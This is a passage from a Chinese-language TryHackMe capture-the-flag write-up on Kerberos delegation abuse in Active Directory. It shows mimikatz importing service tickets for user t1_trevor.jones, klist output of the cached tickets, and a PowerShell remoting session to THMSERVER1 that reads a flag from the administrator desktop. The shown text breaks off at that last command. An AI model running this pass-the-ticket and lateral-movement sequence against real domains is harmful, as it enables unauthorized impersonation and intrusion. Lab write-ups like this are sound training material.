 * File: 'TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_http~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi': OK

mimikatz # kerberos::ptt TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_svcIIS@ZA.TRYHACKME.LOC.kirbi

* File: 'TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_svcIIS@ZA.TRYHACKME.LOC.kirbi': OK

mimikatz # exit
Bye!

```


使用klist查看导入的tgs
```
PS C:\> klist
Current LogonId is 0:0x1c4448

Cached Tickets: (2)

        Server: svcIIS @ ZA.TRYHACKME.LOC
        KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
        Ticket Flags 0x40a10000 -> forwardable renewable pre_authent name_canonicalize
        Start Time: 8/12/2022 5:30:42 (local)
        End Time:   8/12/2022 15:26:27 (local)
        Renew Time: 8/19/2022 5:26:27 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0
        Kdc Called:

#1>     Client: t1_trevor.jones @ ZA.TRYHACKME.LOC
        Server: http/THMSERVER1.za.tryhackme.loc @ ZA.TRYHACKME.LOC
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40a10000 -> forwardable renewable pre_authent name_canonicalize
        Start Time: 8/12/2022 5:30:42 (local)
        End Time:   8/12/2022 15:26:27 (local)
        Renew Time: 8/19/2022 5:26:27 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called:

```


在当前tgs的上下文中建立一个thmserver1的session
```
PS C:\> New-PSSession -ComputerName thmserver1.za.tryhackme.loc

 Id Name            ComputerName    ComputerType    State         ConfigurationName     Availability
 -- ----            ------------    ------------    -----         -----------------     ------------
  1 WinRM1          thmserver1.z... RemoteMachine   Opened        Microsoft.PowerShell     Available


PS C:\> Enter-PSSession -ComputerName thmserver1.za.tryhackme.loc
[thmserver1.za.tryhackme.loc]: PS C:\Users\t1_trevor.jones\Documents> whoami
za\t1_trevor.jones
[thmserver1.za.tryhackme.loc]: PS C:\Users\t1_trevor.jones\Documents> cd c:/users/administrator/desktop
[thmserver1.za.tryhackme.loc]: PS C:\users\administrator\desktop> ls


    Directory: C:\users\administrator\desktop


[thmserver1.za.tryhackme.loc]: PS C:\users\administrator\desktop> type flag2.txt